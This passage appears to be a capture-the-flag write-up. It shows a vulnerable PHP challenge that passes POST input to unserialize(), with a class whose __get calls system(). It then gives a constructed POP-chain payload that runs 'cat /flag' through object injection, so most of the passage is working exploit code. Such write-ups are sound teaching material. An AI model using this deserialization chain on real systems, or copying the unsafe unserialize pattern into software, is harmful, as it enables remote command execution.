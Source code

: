 ```php
    {
        $long = @$this -> banana -> add();
        return $long;
    }
}

class E{
    public $e;
    public function __get($arg1){//1
        system ($this->e);
    }
}
class Heraclqs{
    public $grape;
    public $blueberry;
    public function __invoke(){//2
        if($this -> blueberry == 123) {
            return $this -> grape -> hey;
        }
    }
}

class MaiSakatoku{
    public $Carambola;
    private $Kiwifruit;

    public function __set($name, $value)
    {
        $this -> $name = $value;
        if ($this -> Kiwifruit = "hello"){
            strtolower($this-> Carambola);
        }
    }
}

if(isset($_POST['CTF'])) {
    unserialize($_POST['CTF']);
} else {
    highlight_file(__FILE__);
}
```

分析和构造之后为:

```php
//POP链如下：E-__get()<-Heraclqs-__invoke()<-NONO-toString()<-Hello-__destruct()\
$a = new Hello();
$a ->apple = new NoNo();
$a->apple->peach = new Heraclqs();
$a->apple->peach->blueberry = 123;
$a->apple->peach->grape = new E();
$a->apple->peach->grape->e = 'cat /flag';
echo serialize($a);
```

